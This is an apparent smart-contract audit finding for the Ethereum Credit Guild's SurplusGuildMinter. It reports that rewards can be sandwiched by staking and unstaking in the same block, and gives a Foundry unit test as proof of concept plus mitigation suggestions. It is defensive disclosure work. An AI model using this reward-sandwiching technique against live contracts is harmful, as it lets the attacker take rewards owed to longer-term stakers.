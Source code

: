 # SurplusGuildMinter - Rewards can be sandwiched #418
## Lines of code
https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/SurplusGuildMinter.sol#L114-L155
https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/SurplusGuildMinter.sol#L158-L212
https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/SurplusGuildMinter.sol#L328-L333

## Vulnerability details
### Impact
There exists no lockup period associated with staking to receive a portion of rewards during in the unstake() function

### Proof of Concept
A malicious actor may simply buy credit and then stake before the governor updates the reward using setRewardRatio() and unstake it in the same block thereby sandwiching the rewards and thereby cheating others that staked earlier.

Add this to SurplusGuildMinterUnitTest
```javascript
  function testUnstakeInSameBlock() public {
        // setup
        credit.mint(address(this), 150e18);
        credit.approve(address(sgm), 150e18);
        sgm.stake(term, 150e18);
        assertEq(credit.balanceOf(address(this)), 0);
        assertEq(profitManager.termSurplusBuffer(term), 150e18);
        assertEq(guild.balanceOf(address(sgm)), 300e18);
        assertEq(guild.getGaugeWeight(term), 350e18);
        assertEq(sgm.getUserStake(address(this), term).credit, 150e18);

        // the guild token earn interests
        vm.prank(governor);
        profitManager.setProfitSharingConfig(
            0.5e18, // surplusBufferSplit
            0, // creditSplit
            0.5e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );
        credit.mint(address(profitManager), 35e18);
        profitManager.notifyPnL(term, 35e18);
        assertEq(profitManager.surplusBuffer(), 17.5e18);
        assertEq(profitManager.termSurplusBuffer(term), 150e18);
        (,, uint256 rewardsThis) = profitManager.getPendingRewards(address(this));
        (,, uint256 rewardsSgm) = profitManager.getPendingRewards(address(sgm));
        assertEq(rewardsThis, 2.5e18);
        assertEq(rewardsSgm, 15e18);

        // unstake (sgm)
        sgm.unstake(term, 150e18);
        assertEq(credit.balanceOf(address(this)), 150e18 + rewardsSgm);
        assertEq(guild.balanceOf(address(this)), rewardsSgm * REWARD_RATIO / 1e18 + 50e18);
        assertEq(credit.balanceOf(address(sgm)), 0);
        assertEq(guild.balanceOf(address(sgm)), 0);
        assertEq(profitManager.surplusBuffer(), 17.5e18);
        assertEq(profitManager.termSurplusBuffer(term), 0);
        assertEq(guild.getGaugeWeight(term), 50e18);
        assertEq(sgm.getUserStake(address(this), term).credit, 0);

        // cannot unstake if nothing staked
        vm.expectRevert("SurplusGuildMinter: invalid amount");
        sgm.unstake(term, 1);
    }
```

From this poc it shows that a user can easily just stake and unstake immediately to claim rewards and sell immediately in the same block thereby cheating others that staked for a longer time 

## Tools Used
Manual Analysis

## Recommended Mitigation Steps
Consider implementing a staking/unstaking fee, lockup period or warmup fee

## Assessed type

Other

